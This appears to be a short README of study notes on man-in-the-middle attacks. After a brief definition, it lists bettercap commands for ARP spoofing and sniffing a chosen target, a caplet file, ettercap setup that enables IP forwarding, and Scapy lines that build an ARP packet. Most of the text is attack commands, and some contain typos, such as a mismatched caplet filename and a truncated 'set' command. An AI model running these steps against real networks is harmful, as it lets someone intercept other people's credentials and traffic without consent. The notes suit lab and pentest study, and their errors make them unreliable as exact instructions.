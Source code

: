 # Man In The Middle Attack

A man-in-the-middle (MITM) attack is a type of cyber attack where an attacker intercepts communication
between two parties without their knowledge. The attacker can eavesdrop on the communication, modify the
data being transmitted, or even impersonate one of the parties involved. This attack can be used to steal
sensitive information, such as login credentials or financial data. It is important to implement security
measures, such as encryption and certificate validation, to protect against MITM attacks.

- bettercap
- sudo su
- apt-get install bettercap
- bettercap >
- help
- help net.probe
- net.probe on
- help arp.spoof
- et arp.spoof.fullduplex true
- set arp.spoof.targets (ip)
- help net.sniff
- set net.sniff.local true
- arp.spoof on
- net.sniff on
- exit

- nano sniff.cat
- net.probe on
- set arp.spoof.fullduplex true
- set arp.spoof.targets (ip)
- set net.sniff.local true
- arp.spoof on
- net.sniff on

- bettercap -iface eth0 -caplet sniff.cap

### ettercap

- sudo su
- cat /proc/sys/net/ipv4/ip_forward
- echo 1 > /proc/sys/net/ipv4/ip_forward
- apt-get install ettercap
- ettercap -G
- exit
- arp -a

### Manually Poisoning Target ARP -> Scapy

- Scapy >
- ls(ether)
- ls(arp)
- ls(tcp)
- broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
- broadcast.show()
- arp_layer = ARP(pdst="target_ip")
- arp_layer.show()
- entire_packet = broadcast/arp_layer
- entire_packet.show()
- srp(entire_packet, timeout=2, verbose=true)[0]
- follow tutorial

